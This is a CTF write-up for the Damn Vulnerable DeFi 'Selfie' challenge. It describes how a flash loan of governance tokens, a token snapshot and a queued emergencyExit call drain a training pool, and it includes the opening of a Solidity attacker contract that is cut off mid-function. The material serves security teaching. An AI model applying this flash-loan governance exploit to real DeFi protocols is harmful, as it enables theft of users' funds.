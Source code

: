 ## Goal

You start with no DVT tokens in balance, and the pool has 1.5 million. Your goal is to take them all.

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

The vulnerable part of the code is located in the SelfiePool contract, inside the emergencyExit, the problem is that we can bypass the onlyGovernance modifier and transfer all the DVT tokens from the SelfiePool to our address.

To explout the selfie pool we need to:

1. create Attacker contract, this contract will be borrowing the flash loan from the SelfiePool, therefore it needs to implement the onFlashLoan() function from IERC3156FlashBorrower. We need to have instances of of the SimpleGovernance, SelfiePool and the DamnValuableTokenSnapshot contracts
2. implement onFlashLoan() function, inside this function we will:
  <ul>
  <li>call the snapshot function from the DamnValuableTokenSnapshot token contract, we need this in order to snapshot that the borrowed tokens are in posession of the Attacker contract now</li>
  <li>call the queueAction() function from SimpleGovernance pool, and send abi.encodeWithSignature("emergencyExit(address)", address(this)) as a argument for the data parameter, this way we will call the emergencyExit() function from the SimpleGovernance contract</li>
  <li>approve the DamnValuableTokenSnapshot token contract to use the borrowed tokens, this is needed in order to repay the loan</li>
  </ul>
3. create executeFlashLoan() external function, inside this function we will call flashLoan function from the SelfiePool contract
4. create executeAction() external function, inside this function we will call executeAction() function from the SimpleGovernance contract, and after that it will transfer the DVT tokens from the Attacker contract to our EOA
5. create instance from the Attacker contract
6. call executeFlashLoan from the Attacker contract
7. increase evm time for 2 days, await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days
8. call executeAction from the attacker contract

## Attacker contract code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./SelfiePool.sol";
import "./ISimpleGovernance.sol";
import "../DamnValuableTokenSnapshot.sol";

contract SelfieAttacker is IERC3156FlashBorrower {
    address private immutable governance;
    SelfiePool private immutable pool;
    DamnValuableTokenSnapshot private governanceToken;

    constructor(address _governance, SelfiePool _pool, address _token) {
        governance = _governance;
        pool = SelfiePool(_pool);
        governanceToken = DamnValuableTokenSnapshot(_token);
    }

    function onFlashLoan(
        address,
```